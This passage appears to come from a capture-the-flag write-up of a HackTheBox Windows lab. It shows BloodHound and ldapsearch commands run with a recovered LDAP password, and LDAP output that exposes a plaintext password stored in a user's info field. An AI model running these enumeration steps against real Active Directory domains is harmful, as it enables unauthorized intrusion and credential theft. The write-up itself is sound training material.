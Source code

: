 ### BloodHound

Whenever I find creds on Windows, I’ll run Bloodhound. Since I don’t have a
shell, I’ll use the Python version:

    
    
    oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
    INFO: Found AD domain: support.htb
    INFO: Connecting to LDAP server: dc.support.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 2 computers
    INFO: Connecting to LDAP server: dc.support.htb
    INFO: Found 21 users
    INFO: Found 53 groups
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: Management.support.htb
    INFO: Querying computer: dc.support.htb
    INFO: Done in 00M 13S
    

I’ll load that info into Bloodhound, and mark ldap as owned. Looking at
outbound control, there’s nothing really interesting.

### LDAP

`ldapsearch` will show all the items in the AD, which I can look through:

    
    
    oxdf@hacky$ ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"| less
    

There’s a user named support with an interesting `info` field:

    
    
    # support, Users, support.htb
    dn: CN=support,CN=Users,DC=support,DC=htb
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: support
    c: US
    l: Chapel Hill
    st: NC
    postalCode: 27514
    distinguishedName: CN=support,CN=Users,DC=support,DC=htb
    instanceType: 4
    whenCreated: 20220528111200.0Z
    whenChanged: 20220528111201.0Z
    uSNCreated: 12617
    info: Ironside47pleasure40Watchful
    memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
    memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
    uSNChanged: 12630
    company: support
    streetAddress: Skipper Bowles Dr
    name: support
    ...[snip]...
    